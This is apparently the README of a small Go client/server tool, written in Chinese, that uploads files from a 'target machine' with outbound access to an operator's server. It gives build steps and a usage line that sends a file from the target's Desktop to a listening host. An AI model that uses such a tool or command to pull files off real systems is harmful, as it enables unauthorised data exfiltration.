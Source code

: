 # upload

在目标机器可以出网的情况下可以通过exe上传目标文件到服务器。

## 使用教程

### 编译:

```cmd
go build -o server.exe load.go

go build -o upload.exe upload.go
```

当然如果服务器是linux也可以编译成二进制文件

```cmd
set GOOS=linux

set GOARCH=amd64
```

### 运行

server是服务端用来接收文件的

```
server.exe -p 9090
```

upload是用来上传文件的

```
upload.exe -u C:\Users\Desktop\1.txt -i 192.168.1.100 -p 9090
```

